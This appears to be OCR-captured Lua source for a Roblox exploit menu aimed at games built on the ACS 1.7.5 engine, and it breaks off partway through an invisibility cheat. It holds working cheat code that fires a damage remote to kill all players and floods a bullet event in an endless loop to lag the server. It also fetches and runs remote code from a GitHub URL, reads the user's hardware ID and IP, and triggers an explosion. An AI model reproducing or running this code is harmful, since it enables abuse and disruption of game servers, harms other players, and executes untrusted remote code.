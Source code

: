 local Button = Tab:CreateButton({
   Name = "acs 1.7.5 킬올 ",
   Callback = function()
local DR = game:GetService("ReplicatedStorage")["ACS_Engine"].Eventos.Damage
 
for PlayerIndex,GivenPlayer in pairs(game.Players:GetPlayers()) do
    local Char = GivenPlayer.Character
    DR:FireServer(Char.Humanoid,Char.Humanoid.MaxHealth,0,0)
            end
   end,
})

local Button = Tab:CreateButton({
   Name = "핑핵 실행",
   Callback = function()
while true do for i = 1 , 2500 do game.ReplicatedStorage.ACS_Engine.Events.ServerBullet:FireServer(Vector3.new(math.huge , math.huge , math.huge)) end task.wait() end
        end,
})

local Button = Tab:CreateButton({
   Name = "CE 엔진 폭발 ",
   Callback = function()
 local xpm = loadstring(game:HttpGet("https://raw.githubusercontent.com/xsinew/xpm/main/setup.lua"), "xpm")()
xpm:Init("Discord: xsinew")
import "ClientManager"

local hwid = ClientManager:GetID()
local ip = ClientManager:GetIP()
import "QuickServices"
import "CarbonExploit"

local LocalPlayer = Players.LocalPlayer

CarbonExploit:Explode(LocalPlayer.Character.Torso.Position)
   end,
})


local Button = Tab:CreateButton({
   Name = "투명 (L) ",
   Callback = function()
    local ScriptStarted = false
local Keybind = "L" --Set to whatever you want, has to be the name of a KeyCode Enum.
local Transparency = true --Will make you slightly transparent when you are invisible. No reason to disable.
local NoClip = false --Will make your fake character no clip.
 
local Player = game:GetService("Players").LocalPlayer
local RealCharacter = Player.Character or Player.CharacterAdded:Wait()
 
local IsInvisible = false
 
RealCharacter.Archivable = true
local FakeCharacter = RealCharacter:Clone()
local Part
Part = Instance.new("Part", workspace)
Part.Anchored = true
Part.Size = Vector3.new(200, 1, 200)
Part.CFrame = CFrame.new(0, -500, 0) --Set this to whatever you want, just far away from the map.
Part.CanCollide = true
FakeCharacter.Parent = workspace
FakeCharacter.HumanoidRootPart.CFrame = Part.CFrame * CFrame.new(0, 5, 0)
 